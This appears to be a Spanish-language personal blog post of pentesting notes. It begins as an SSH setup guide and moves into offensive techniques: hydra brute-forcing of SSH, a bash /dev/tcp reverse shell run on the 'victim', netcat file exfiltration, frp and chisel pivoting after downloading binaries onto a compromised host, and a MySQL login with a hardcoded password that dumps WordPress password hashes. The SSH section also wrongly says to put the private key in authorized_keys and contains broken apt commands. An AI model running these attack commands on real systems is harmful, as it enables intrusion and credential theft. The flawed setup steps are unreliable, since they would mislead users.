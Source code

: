 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Como establecer una conexion remota SSH?

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#about_ssh">Que es SSH?</a>
- <a href="#instalacion">Instalacion</a>
- <a href="#configuracion">Configuracion</a>
- <a href="#conexion">Establecer conexion</a>
- <a href="#conclusiones">Conclusiones</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Es incomodo utilizar la terminal desde algunos dispositivos, o simplemente la interfaz no es como a la que estamos acostumbrados. En este post mostrare como configurar correctamente el servicio de SSH para poder establecer una conexion remota desde otro dispositivo.


## [](#header-2)<a id="about_ssh">Que es SSH?</a>


## [](#header-2)<a id="about_ssh">Instalacion</a>


Para dispositivos con sistema operativo basado en debian


```S
#Actualizacion de sistema
sudo apt update && upgrade
#Instalacion de openssh
apt install openssh
#Para loggearte en una maquina con ssh en ejecusion donde el puerto por default es (22):
ssh user@hostname_or_ip
```

Para dispositivos <a id="andorid">android</a>

```S
pkg upgrade
pkg install openssh
```

## [](#header-2)<a id="about_ssh">Configuracion</a>

Por default la contrasena esta establecida, por lo que ingresaremos a verla con
PrintMotd yes
PasswordAuthentication yes
Subsystem sftp /data/data/com.termux/files/usr/libexec/sftp-server

Para establecer una nueva contrasena


```S
$ passwd
New password:
Retype new password:
New password was successfully set.

```

## [](#header-2)<a id="conexion">Establecer conexion</a>
Para saber el usuario de la maquina donde nos conectaremos

```S
$ whoami
```


```S
#Para usar un puerto en especifico
ssh -p 8022 user@hostname_or_ip
```

Tambien es posible crear en la maquina servifor un archivo dentro de /.ssh/ que se llame authorized_keys, jabra que copiarle la llave privada y asignarle el codigo de permisos 600. La llave se copia dentro de algun directorio de la maquina que se conectara con el nombre de id_rsa y se le pasara el siguiente comando:

```s
#Para uso de llave privada y publica
ssh -i id_rsa user@hostname_or_ip
```

Si hemos olvidado la contrasena e intentamos hacer un bruteforce al servicio de ssh mediante wordlist, podemos usar hydra de la manera siguiente:

```s
hydra -s 22 ssh://192.168.0.100 -L users -P wordlist
```

## [](#header-2)<a id="conclusiones">Conclusiones</a>
Es necesario utilizar muchos dispositivos para alguien que se dedica a la tecnologia, por lo que lo mas practico seria utilizar solo una maquina para poder comunicarnos entre los dispositivos y poder configurarlos.


# [](#header-1)Como hacer una reverse shell?
El comando siguiente hara una peticion de conexion para la ip y puerto asignado:

 ```bash
 #Para ejecutar del lado de la victima
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Ahora solo hara falta ponerse en escucha con netcat y para que funcione mejor la consola suelo usar tambien el rlwrap 

```s
rlwrap nc -nlvp 443
```

## [](#header-2)<a id="tratamiento tty">Tratamiento para la tty </a>

Para hacer una shell iteractiva:

```s
script /dev/null -c bash
```

Ctrl+Z

```s
stty raw -echo; fg
#ENTER
reset xterm

export TERM=xterm
export SHELL=bash
```

Para las filas

```s
#Consulta de tamano
stty size
45  174
#Para definir
stty rows 45 columns 174
```

# [](#header-1)Envio de datos mediante netcat

```s
#Maquina que envia
nc 10.10.14.22 443 < file_encrypt
#Maquina que recibe
nc -nlvp 4444 > file
```

# [](#header-1)Proxis
frp
Primero iniciamos en la maquina atacante el servidor, en esta ocasion usaremos la configuracion de default
nohup ./frps -p 7000 &

Despues hacemos cambios en el archivo frpc.ini, cambiando la IP del servidor a la del atacante. Los descargamos a la maquina victima y ejecutamos
chmod +x frpc
nohup ./frpc -c frpc_1.ini &

Chisel
Vamos a usar una herramienta llamada <a href="https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz">chisel</a> para hacer el port forwarding con el contenedor que tenemos enfrente y esta permitido para usarlo en el OSCP.

Asi que lo primero seria descomprimirlo, luego quitarle peso con upx y abrir nuestro servidor http con python para descargarlo del otro lado. 

Y al final desde el contenedor ejecutamos:

```s
curl http://10.10.14.29/chisel_1.7.7_linux_amd64 > chisel
#Le damos permisos
chmod +x chisel

./chisel client 10.10.14.29:1234 R:socks
```

Del lado de la atacante

```s
./chisel server --reverse -p 1234
```

Una vez establecida la comunicacion, hacemos una modificacion en el archivo /etc/proxychains.conf
Agregamos la siguiente linea:

```s
socks5 127.0.0.1 1080
```

Y ahora configuramos el foxyproxy con socks5, puerto 127.0.0.1 y puerto 1080 para poder llegar a estas maquinas desde el navegador.

![104](/assets/images/Toby/104_access.png)

Tambien podemos intentar romper el cifrado de las contrasenas de la DB que teniamos.

Accedemos a la base de datos con:

```SQL
proxychains mysql -uroot -pOnlyTheBestSecretsGoInShellScripts -h 172.69.0.102

show databases;

show tables;

describe wp_users;

select user_login,user_pass from wp_users;
```

Existe una pagina en linea que genera payloads, la cual es: <a href="https://www.revshells.com/"></a>